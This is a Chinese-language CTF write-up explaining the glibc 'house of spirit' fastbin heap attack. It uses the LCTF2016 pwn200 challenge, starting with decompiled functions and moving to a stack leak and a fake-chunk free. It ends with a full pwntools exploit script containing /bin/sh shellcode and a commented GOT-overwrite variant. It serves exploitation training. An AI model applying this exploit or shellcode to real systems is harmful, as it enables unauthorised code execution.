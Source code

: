 # house of spirit 
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>house系列之house of spirit，fastbin attack之一。<br>&nbsp;&nbsp;&nbsp;&nbsp;首先不可缺少的先贴[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)以及[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack/)两大pwn入门学习神资料。</font><br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>完了之后这里以一题我当时学习的LCTF2016例题pwn200来讲解，顺便贴上我当时学习的[原帖](http://pwn4.fun/2017/06/26/%E5%A0%86%E6%BC%8F%E6%B4%9E%E4%B9%8BHouse-of-Spirit/)。程序开头是这样的：</font><br>

```C
int sub_400A8E()
{
  signed __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h]

  puts("who are u?");
  for ( i = 0LL; i <= 47; ++i )
  {
    read(0, &v2[i], 1uLL);
    if ( v2[i] == 10 )
    {
      v2[i] = 0;
      break;
    }
  }
  printf("%s, welcome to xdctf~\n", v2);
  puts("give me your id ~~?");
  gets();
  return sub_400A29();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>经典的read代码，虽然没有溢出但是v2缓冲区没有'\0'截断，因此泄露了栈地址；在这里gets()函数（我重命名之后）的返回值事实上是保存在栈上了，看伪代码看不出来，但是反汇编很清楚，可以作为栈上伪造chunk的size，继续深入：</font><br>

```C
int sub_400A29()
{
  char buf; // [rsp+0h] [rbp-40h]
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, &buf, 0x40uLL);
  strcpy(dest, &buf);
  ptr = dest;
  return sub_4009C4();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>仔细看，这里buf接受0x40大小，而根据栈，实际上buf的最后8个字节是可以修改dest的地址的，那么实际上在这里已经可以控制写入地址了，那么我们把dest修改到printf函数的got表处，然后strcpy写入的时候把printf函数的got表修改为shellcode的入口地址处不就完了？没错，完了:)</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但既然我们是来学house of spirit还是不用这种“歪”脑筋吧，老老实实的把dest修改到栈上（具体可以根据之前泄露的栈地址精确计算到想要的地方），然后free之，再重新malloc就会把这个堆块再返回过来，然后就可以随意控制这一片栈了。</font><br>

脚本
======

```python
#搬运大佬BruceFan的脚本，plus非预期解

#encoding:utf-8
from pwn import *

#r = remote('127.0.0.1', 6666)
p = process("./pwn200")
elf = ELF('./pwn200')
printf_got=elf.got['printf']

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

def pwn():
    # gdb.attach(p, "b *0x400991")

    data = shellcode.ljust(46, 'a')
    data += 'bb'
    p.send(data)
    p.recvuntil('bb')
    rbp_addr = p.recvuntil(', w')[:-3]
    rbp_addr = u64(rbp_addr.ljust(8,'\x00'))
    print hex(rbp_addr)

    fake_addr = rbp_addr - 0x90
    #fake_addr = printf_got
    
    shellcode_addr = rbp_addr - 0x50
    # 输入id伪造下一个堆块的size
    p.recvuntil('id ~~?')
    p.sendline('32')

    p.recvuntil('money~')
    
    #data = p64(shellcode_addr)+p64(0)*4+p64(0x41) 覆盖printf之got表为shellcode地址
    data = p64(0) * 5 + p64(0x41) # 伪造堆块的size
    data = data.ljust(0x38, '\x00') + p64(fake_addr) # 覆盖堆指针
    p.send(data)

    p.recvuntil('choice : ')
    p.sendline('2') # 释放伪堆块进入fastbin

    p.recvuntil('choice : ')
    p.sendline('1')
    p.recvuntil('long?')
    p.sendline('48')
    p.recvuntil('\n48\n') # 将伪堆块申请出来
    data = 'a' * 0x18 + p64(shellcode_addr) # 将eip修改为shellcode的地址
    data = data.ljust(48, '\x00')
    p.send(data)
    p.recvuntil('choice : ')
    p.sendline('3') # 退出返回时回去执行shellcode

    p.interactive()

if __name__ == '__main__':
    pwn()

```
